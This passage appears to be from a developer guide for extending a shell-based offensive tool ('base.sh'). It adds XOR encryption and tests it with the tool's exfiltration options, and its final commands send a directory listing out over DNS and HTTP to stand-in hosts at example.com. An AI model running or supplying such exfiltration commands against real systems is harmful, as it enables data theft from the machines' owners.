 ### Step 7: Test Thoroughly

We test our enhanced feature to ensure it works correctly with the existing pipeline:

```sh
# Test basic XOR encryption
./base.sh --ls --encrypt xor

# Test with JSON format
./base.sh --ls --encrypt xor --format json

# Test with debug output to see the key
./base.sh --ls --encrypt xor --debug
```

And verify the output contains the XOR-encrypted data and the correct metadata.

## Best Practices for Enhancing Features

1. **Use Global Command Variables**: Always use global command variables like `$CMD_PRINTF`, `$CMD_TR`, `$CMD_XXD` instead of direct commands.

2. **Follow Function Naming**: Use the `core_` prefix for base functions and descriptive verb names.

3. **Maintain Pattern Consistency**: Follow the same code patterns used in the existing feature.

4. **Respect Global Variables**: Use the same global variables that the original feature uses (e.g., `ENCRYPTION_TYPE`).

5. **Preserve Behavior**: Ensure the enhancement doesn't break existing functionality.

6. **Add to Switch Statements**: When extending a feature with options, add new cases to existing switch/case statements.

7. **Update Documentation**: Always update help text and comments to reflect your changes.

8. **Handle Errors Consistently**: Use `core_handle_error()` and `core_debug_print()` for consistent error handling.

9. **Test Integration**: Test how your enhancement works with other features in the pipeline.

10. **Support Exfiltration**: Ensure any encryption method works with the existing exfiltration mechanisms, particularly key handling.

11. **Use POSIX-Compatible Code**: Ensure shell compatibility across Zsh, Bash, and Sh by avoiding shell-specific features.

## Testing XOR Encryption with Exfiltration

To test that our XOR encryption properly works with the exfiltration mechanism:

```sh
# Test XOR encryption with DNS exfiltration
./base.sh --ls --encrypt xor --exfil-dns example.com --debug

# Test XOR encryption with HTTP exfiltration
./base.sh --ls --encrypt xor --exfil-http http://example.com/collector --debug
```
